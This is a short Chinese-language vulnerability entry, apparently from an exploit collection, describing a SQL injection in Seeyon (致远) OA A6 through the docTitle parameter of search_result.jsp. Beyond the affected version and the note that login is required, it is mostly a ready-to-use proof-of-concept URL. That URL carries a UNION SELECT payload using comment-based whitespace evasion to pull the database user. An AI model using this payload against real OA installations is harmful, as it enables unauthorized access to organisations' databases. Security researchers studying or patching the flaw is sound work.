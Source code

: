 ```yaml
---
title: 致远OA A6 search_result.jsp sql注入漏洞
id: zhfly3347
---
```


# 致远OA A6 search_result.jsp sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
/yyoa/oaSearch/search_result.jsp 
```

##### 漏洞详情:

```
版本：A6
注意：需登录账户
注入发生在search_result.jsp文件中的docTitle参数 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/oaSearch/search_result.jsp?docType=协同信息&docTitle=1'and/**/1=2/**/ union/**/all/**/select/**/user(),2,3,4,5%23&goal=1&perId=0&startTime=&endTime=&keyword=&searchArea=notArc 
```